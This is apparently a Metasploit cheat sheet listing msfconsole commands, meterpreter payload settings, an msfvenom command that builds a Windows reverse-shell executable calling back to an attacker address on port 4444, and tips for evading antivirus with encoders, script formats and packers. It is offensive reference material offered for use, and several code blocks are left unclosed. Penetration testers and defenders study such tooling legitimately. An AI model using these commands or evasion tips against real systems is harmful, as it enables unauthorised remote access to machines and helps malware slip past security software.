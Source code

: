 
# Metasploit Cheatsheet 🧠

## Global Commands

| Command | Description |
|--------|-------------|
| `search <name>` | Search modules |
| `use <module>` | Load a module |
| `info` | Show module info |
| `set RHOST <ip>` | Target IP |
| `set LHOST <ip>` | Attacker IP |
| `set PAYLOAD <payload>` | Choose payload |
| `exploit` | Run the exploit |
| `sessions` | View active sessions |
| `background` | Background session |

## Payload Examples

```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set PAYLOAD windows/meterpreter/reverse_http

---

## Reverse Shell Payloads
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe

---

## Scripting
```bash
msfconsole -r myscript.rc

---

## Evade AV Tips
    Use -e x86/shikata_ga_nai
    Output to .ps1, .bat, .vbs
    Use packers/obfuscators post-build
